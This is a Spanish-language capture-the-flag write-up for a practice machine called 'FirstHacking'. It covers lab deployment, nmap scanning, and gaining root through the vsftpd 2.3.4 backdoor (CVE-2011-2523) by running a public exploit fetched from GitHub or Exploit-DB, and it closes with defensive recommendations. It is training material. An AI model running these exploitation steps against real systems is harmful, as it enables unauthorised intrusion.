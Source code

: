 # 🖥️ **Máquina: FirstHacking**  
- **🔹 Dificultad:** Muy Fácil  
- **📌 Descripción:** Máquina de práctica enfocada en la explotación de un servicio FTP vulnerable (vsftpd 2.3.4).  
- **🎯 Objetivo:** Obtener acceso no autorizado a través de una vulnerabilidad conocida.

---

## 🚀 **Despliegue de la Máquina**

1. **Descarga y descompresión:**  
   Primero descargamos la máquina vulnerable y la descomprimimos con el comando:
   ```bash
   unzip firsthacking.zip
   ```

2. **Ejecución de la máquina:**  
   Ejecutamos el entorno con:
   ```bash
   sudo bash auto_deploy.sh firsthacking.tar
   ```

   ![](/FirstHacking/Imagenes/Maquina.png)  
   ![](/FirstHacking/Imagenes/Activar.jpeg)

3. **Verificación de conectividad:**  
   Comprobamos que la máquina esté activa con un `ping` a su IP:
   ```bash
   ping -c4 172.17.0.2
   ```

   ![](/FirstHacking/Imagenes/Ping.jpeg)

---

## 🔍 **Reconocimiento**

1. **Escaneo de puertos (Nmap):**  
   Utilizamos Nmap para identificar puertos abiertos:
   ```bash
   sudo nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 172.17.0.2 -oG allPorts.txt
   ```

   ![](/FirstHacking/Imagenes/Puertos.jpeg)

2. **Análisis de servicios y versiones:**  
   Luego escaneamos los puertos detectados para obtener más información sobre los servicios:
   ```bash
   nmap -sC -sV -p 21 172.17.0.2 -oN target.txt
   ```

   > ✨ *Nota:* Puedes encontrar más detalles sobre cómo automatizar y optimizar escaneos Nmap en mis repositorios.

   ![](/FirstHacking/Imagenes/Servicios.jpeg)

---

## 💥 **Explotación**

### 🔸 Servicio identificado: **FTP (vsftpd 2.3.4)**  
Este servicio es conocido por tener una puerta trasera (backdoor) introducida maliciosamente en versiones comprometidas.

#### 📌 Opción 1: Usar un script de GitHub
1. Clonamos el repositorio del exploit:
   ```bash
   git clone https://github.com/nobodyatall648/CVE-2011-2523
   cd CVE-2011-2523
   ```

2. Ejecutamos el exploit:
   ```bash
   python3 vsftpd_2.3.4_exploit.py 172.17.0.2
   ```

   ![](/FirstHacking/Imagenes/Git.jpeg)  
   ![](/FirstHacking/Imagenes/Exploit.jpeg)

#### 📌 Opción 2: Usar `searchsploit` (Exploit-DB)
1. Buscar la vulnerabilidad:
   ```bash
   searchsploit vsftpd 2.3.4
   ```

2. Copiar el exploit al directorio actual:
   ```bash
   searchsploit -m unix/remote/49757.py
   ```

3. Ejecutar el script:
   ```bash
   python3 49757.py 172.17.0.2
   ```

   ![](/FirstHacking/Imagenes/Metododos.jpeg)  
   ![](/FirstHacking/Imagenes/Resultado.jpeg)

---

## ✅ **Resultado Final**

La ejecución del exploit proporciona acceso no autorizado al sistema como **usuario root** a través del servicio FTP, logrando así comprometer la máquina con éxito.

---

## 🛡️ **Recomendaciones**

- **Actualizar software vulnerable:** Evitar el uso de versiones antiguas de servicios como vsftpd. La versión 2.3.4 contiene una puerta trasera introducida maliciosamente.
- **Monitoreo de servicios expuestos:** Limitar el acceso a servicios innecesarios y configurar firewalls para reducir la superficie de ataque.
- **Auditorías periódicas:** Realizar escaneos de seguridad regulares para identificar vulnerabilidades conocidas.
- **Uso de honeypots:** En entornos controlados, se puede usar esta vulnerabilidad como señuelo educativo o de detección de intrusos.

---

## 📚 **Aprendizajes Clave**

- La herramienta **Nmap** es fundamental para el reconocimiento de servicios y detección temprana de vectores de ataque.
- Las bases de datos como **Exploit-DB** y herramientas como **Searchsploit** permiten identificar rápidamente vulnerabilidades conocidas.
- La explotación de **vsftpd 2.3.4** demuestra la importancia de la gestión de versiones y parches de seguridad.
- Usar scripts existentes requiere comprensión previa de su funcionamiento para evitar errores o mal uso.
